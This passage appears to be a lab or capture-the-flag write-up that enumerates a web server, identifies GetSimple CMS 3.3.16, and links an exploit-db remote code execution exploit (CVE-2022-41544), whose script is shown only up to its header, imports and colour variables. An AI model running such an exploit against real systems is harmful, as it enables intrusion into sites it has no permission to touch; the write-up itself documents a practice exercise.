 Then We enumerated the Port 80 by using a web browser and found a Web Page :

![Webpage Start](Webpagestart.PNG)

Upon Looking further, we were able to find the version and the CMS name and a publisher name of the site that might be useful later :

![Webpage End](webpageend.PNG)

# Foothold
We initiated a Google search to explore potential exploits for GetSimpleCMS Version 3.3.16. Our efforts yielded a critical vulnerability within the CMS that enables attackers to achieve Remote Code Execution (RCE) on the target machine. This discovery marks a significant point of entry for attackers looking to compromise the system.

Exploit Link : https://www.exploit-db.com/exploits/51475

Exploit :

```
# Exploit Title: GetSimple CMS v3.3.16 - Remote Code Execution (RCE)
# Data: 18/5/2023
# Exploit Author : Youssef Muhammad
# Vendor: Get-simple
# Software Link:
# Version app: 3.3.16
# Tested on: linux
# CVE: CVE-2022-41544

import sys
import hashlib
import re
import requests
from xml.etree import ElementTree
from threading import Thread
import telnetlib

purple = "\033[0;35m"
reset = "\033[0m"
yellow = "\033[93m"
blue = "\033[34m"
```